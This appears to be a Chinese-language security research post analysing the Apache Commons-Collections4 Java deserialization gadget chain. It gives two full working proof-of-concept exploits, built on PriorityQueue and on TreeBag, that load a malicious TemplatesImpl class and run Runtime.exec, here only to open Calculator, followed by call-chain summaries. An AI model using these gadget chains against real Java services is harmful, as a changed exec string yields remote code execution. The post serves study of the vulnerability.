


# 环境搭建
> 1. `JDK`版本：JDK1.8u66(暂无版本限制)
> 2. `Commons-Collections4`版本：4.0

> 利用`maven`来进行搭建，先创建一个`Maven`项目，不用选择任何`Maven`模板，`pom.xml`中内容如下，之后选择右侧的更新，让其自动导入包即可

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>commons-collections</artifactId>
    <version>1.0-SNAPSHOT</version>

    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
    </dependencies>

</project>
```

# 前置知识
## TreeBag & TreeMap
> 在`CommonsCollection2`中，使用了优先级队列`PriorityQueue`反序列化时会调用`comparator`的`compare`方法的特性，配合`TransformingComparator`触发`transformer`，按照这个思路找到另一个提供排序的类`TreeBag`，其在反序列化的时候会调用比较器

> `Bag`接口继承自`Collection`接口，定义了一个集合，该集合会记录对象在集合中出现的次数，它有一个子接口`SortedBag`，定义了一种可以对其唯一不重复成员排序的`Bag`类型




> `TreeBag`是对`SortedBag`的一个标准实现，`TreeBag`使用`TreeMap`来储存数据，并使用指定`Comparator`来进行排序，`TreeBag`继承自`AbstractMapBag`实现了`SortedBag`接口，初始化`TreeBag`时会创建一个新的`TreeMap`储存在成员变量`map`里，而排序使用的`Comparator`则直接储存在`TreeMap`中


> 在对`TreeBag`反序列化时，会将反序列化出来的`Comparator`对象交给`TreeMap`实例化，并调用父类的`doReadObject`方法进行处理


> 在`doReadObject`方法中会向`TreeMap`中`put`数据


> 对于这种有序的储存数据的集合，反序列化数据时一定会对其进行排序动作，而`TreeBag`则是依赖了`TreeMap`在`put`数据时会调用`compare`进行排序的特点来实现数据顺序的保存


> 而在`compare`方法中调用了`comparator`进行比较，以使用`TransformingComparator`触发后续的逻辑


# Commons-Collections4 分析
## POC-1
> 该利用链沿用了`CommmonsCollections3`链利用`TrAXFilter`类的构造函数去触发`TemplatesImpl#newTransformer`加载恶意字节码的方法，沿用了`CommonsCollections2`链通过`PriorityQueue`触发`TransformingComparator.compare()`进而调用传入的`transformer`对象的`transform`方法

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 10:55 上午
 */
public class CommmonsCollections4PriorityQueue {

    public static void CC4() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


## POC-2
> 相较于`POC-1`，这里使用`TreeBag`和`TreeMap`来替代`PriorityQueue`进行构造

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.bag.TreeBag;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 11:26 上午
 */
public class CommonsCollectionsTreeBag {

    public static void CC4() throws NotFoundException, CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};

        TemplatesImpl obj = new TemplatesImpl();
        Class _class = obj.getClass();
        Field _name = _class.getDeclaredField("_name");
        Field _bytecode = _class.getDeclaredField("_bytecodes");
        Field _tfactory = _class.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(obj);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(treeBag);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


# 调用链
> PriorityQueue
```java
PriorityQueue.readObject()
    TransformingComparator.compare()
        *ChainedTransformer.transform()
                InvokerTransformer.transform()
                    InstantiateTransformer.transform()
                        TemplatesImpl.newTransformer() 
```

> TreeBag
```java
org.apache.commons.collections4.bag.TreeBag.readObject()
    org.apache.commons.collections4.bag.AbstractMapBag.doReadObject()
        java.util.TreeMap.put()
            java.util.TreeMap.compare()
                org.apache.commons.collections4.comparators.TransformingComparator.compare()
                        org.apache.commons.collections4.functors.InvokerTransformer.transform()
```

# 总结
> 使用`PriorityQueue`反序列化时触发的`TransformingComparator`的`compare`方法，就会触发`ChainedTransformer`的`tranform`方法链，其中利用`InstantiateTransformer`实例化`TrAXFilter`类，此类实例化时会调用`TemplatesImpl`的`newTransformer`实例化恶意类，执行恶意代码

> 用`TreeBag`代替`PriorityQueue`触发`TransformingComparator`，后续依旧使用`Transformer`的调用链